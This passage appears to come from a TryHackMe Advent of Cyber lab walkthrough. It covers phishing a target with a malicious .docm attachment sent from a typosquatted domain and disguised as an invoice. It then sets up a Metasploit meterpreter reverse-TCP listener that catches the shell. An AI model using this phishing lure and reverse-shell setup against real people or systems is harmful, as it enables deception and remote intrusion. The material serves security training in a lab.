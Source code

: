 
## Email the Malicious Document

The malicious document has been created. All you need to do is to send it to the target user. It is time to send an email to the target user, `marta@socmas.thm`. Mayor Malware has prepared the following credentials:

- Email: `info@socnas.thm`
- Password: `MerryPhishMas!`

Notice how Mayor Malware uses a domain name that looks similar to the target user’s. This technique is known as “typosquatting,” where attackers create domain names that are nearly identical to legitimate ones in order to trick victims. On the AttackBox, start the Firefox web browser and head to http://10.10.101.132. Use the above credentials to log in.

Once logged in, compose an email to the target user, and don’t forget to attach the document you created. Changing the name to something more convincing, such as `invoice.docm` or `receipt.docm` might be a good idea. Also, write a couple of sentences explaining what you are attaching to convince Marta May Ware to open the document. **Note:** You can use CTRL+H on the file upload pop-up to be able to see the `.msf4` directory where our email attachment is located.

## Exploitation

If everything works out, you will get a reverse shell after about 2 minutes. You can access the files and folders on the target system via the command line. You can use `cat` to display any text file.

```
┌──(kali㉿kali)-[/mnt/hgfs/tmp/tryhackme/adventofcyber2024]
└─$ msfconsole -q
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.2.111.254
lhost => 10.2.111.254
msf6 exploit(multi/handler) > set lport 8888
lport => 8888
msf6 exploit(multi/handler) > show options 

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, pr
                                        ocess, none)
   LHOST     10.2.111.254     yes       The listen address (an interface may be speci
                                        fied)
   LPORT     8888             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.2.111.254:8888 
[*] Sending stage (177734 bytes) to 10.10.101.132
```